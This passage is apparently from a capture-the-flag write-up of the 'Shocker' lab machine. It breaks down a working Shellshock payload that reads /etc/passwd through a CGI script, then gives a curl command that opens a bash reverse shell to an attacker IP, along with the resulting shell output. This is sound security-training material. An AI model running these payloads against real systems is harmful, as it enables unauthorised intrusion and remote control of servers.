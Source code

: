 That worked, but why? Let's break it down:

> () { :;}; --> this is the actual "bug"
>
> echo Content-type:text/plain; --> adds a new header to the response
>
> echo; --> add's a blank line after the new header, this is the key to fixing the 500 error
>
> /bin/cat /etc/passwd --> add's the output of this command after the blank line

The reason we ketp seeing the 500 error was because when we sent the previous requests, there was no space between the headers and the content being returned, and so the server encounters the internal error. By adding the "echo", which just returns a blank line, it seperates the headers from the data, which is why we are able to view the responses when we add it in.

In addition, we don't actually need the line "echo Content-type:text/plain;", as shown below:

![](<../../.gitbook/assets/6 (5).JPG>)

One last thing to note is the fact that we need to use the full path to the binary we are trying to execute. This is because, in the context of the web service, there is no environment and therefore no $PATH variable set. We could of course fix this in the payload but it's not really worth the effort as we already have the RCE.

Next, let's get a reverse shell using the following command. Note that we don't need to add the "echo" here because we don't need to see any output from the server:

> curl -A '() { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.14.3/8585 0>&1' http://10.10.10.56/cgi-bin/user.sh

```
└─$ nc -nvlp 8585
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8585
Ncat: Listening on 0.0.0.0:8585
Ncat: Connection from 10.10.10.56.
Ncat: Connection from 10.10.10.56:37822.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```

We can also grab the user flag:
